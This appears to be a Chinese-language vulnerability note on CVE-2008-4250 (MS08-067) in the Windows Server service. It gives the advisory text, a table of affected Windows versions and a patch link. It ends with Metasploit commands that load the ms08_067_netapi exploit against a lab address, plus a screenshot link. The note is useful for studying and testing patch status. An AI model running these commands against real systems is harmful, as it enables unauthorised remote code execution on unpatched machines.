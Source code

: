### CVE-2008-4250

#### 描述

The Server service in Microsoft Windows 2000 SP4, XP SP2 and SP3, Server 2003 SP1 and SP2, Vista Gold and SP1, Server 2008, and 7 Pre-Beta allows remote attackers to execute arbitrary code via a crafted RPC request that triggers the overflow during path canonicalization, as exploited in the wild by Gimmiv.A in October 2008, aka "Server Service Vulnerability."

#### 影响版本

| Product             | Version | Update | Edition          | Tested |
| ------------------- | ------- | ------ | ---------------- | ------ |
| Windows 2000        |         | SP4    |                  |        |
| Windows Server 2003 |         | SP1    |                  |        |
| Windows Server 2003 |         | SP1    | Itanium          |        |
| Windows Server 2003 |         | SP2    |                  |        |
| Windows Server 2003 |         | SP2    | Itanium          |        |
| Windows Server 2003 |         | SP2    | X64              |        |
| Windows Server 2003 |         |        | X64              |        |
| Windows Server 2008 |         |        | X32              |        |
| Windows Server 2008 |         |        | X64              |        |
| Windows Server 2008 |         |        | Itanium          |        |
| Windows Vista       |         | SP1    | X64              |        |
| Windows Vista       |         |        |                  |        |
| Windows Vista       |         |        | X64              |        |
| Windows Vista       |         | SP1    |                  |        |
| Windows Xp          |         |        | Professional X64 |        |
| Windows Xp          |         | SP2    |                  |        |
| Windows Xp          |         | SP2    | Professional X64 |        |
| Windows Xp          |         | SP3    |                  |        |

#### 修复补丁

```
https://portal.msrc.microsoft.com/en-US/security-guidance/advisory/CVE-2008-4250
```

#### 利用方式

使用msf 测试系统windows server 2003 sp2 x86

```
use exploit/windows/smb/ms08_067_netapi
set RHOST 192.168.1.14
run
```

![image-20200823143331505](https://github.com/Ascotbe/Random-img/blob/master/WindowsKernelExploits/CVE-2008-4250_win2003_x86_msf.png?raw=true)